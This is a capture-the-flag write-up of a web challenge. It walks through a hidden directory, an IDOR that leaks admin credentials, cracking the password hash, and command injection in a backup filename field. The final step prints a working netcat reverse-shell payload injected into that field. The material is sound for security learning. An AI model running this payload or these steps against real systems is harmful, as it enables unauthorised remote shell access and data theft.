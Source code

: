 # **_Command via door_**
### Medium: 500 (300) pts

> Our employee management web application should soon be deployed. Can you help us test its robustness?

> Challmaker: uchiwa


We have an app were we can create an account and login.

![account](account.png)


Once inside there is a profile page.


![profile](profile.png)


Nothing really interesting. I tried to see is there was an `SSTI` in the username as this is a flask app but nothing.

Moving on and reading the source code we get this.


![hidden_dir](hidden_dir.png)


There is a hidden directory `/infos-all-users`. Accessing it we get


![strange 400](strange_400.png)


This tells us that the request wasn't sent the way it should've been. But the name of that directory tells us that we're supposed to read some users infos here so I tried some `Idor` stuffs like `?id=1` and `/1`. Finally the last one was the right answer as accessing `/infos-all-users/2` we get this


![admin creds](admin_creds.png)


The password seems to be encrypted so I used `crackstation` to decode it.


![pass crack](pass_crack.png)


And login in as admin we have


![admin dashboard](admin_dashboard.png)


We see that there is a backup functionality which isn't available to random users. It asks us for the name of the backup file and then nothing....


![backup](backup.png)


Now by experience we know that databases backups are generally generated using tools like `mysqldump`  which are command line utilities. So we can assume that in the background what is actually done by the server when we use the backup functionality is something like:

```bash
$ mysqldump -u [username] –p[password] [database_name] > <filename_provided>
```

Or something similar. I decided to inject some bash specific chars like `#` to confirm that and in fact it had some effect on the backup process result

This opens up the way to an `RCE`

I sent this payload to get a revershell:

`random; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <PORT> >/tmp/f`

And nice we got the shell. We just have to look for the flag now and we're done.


![flag](flag.png)


##### _By w1z0z - (l3gm1nn)_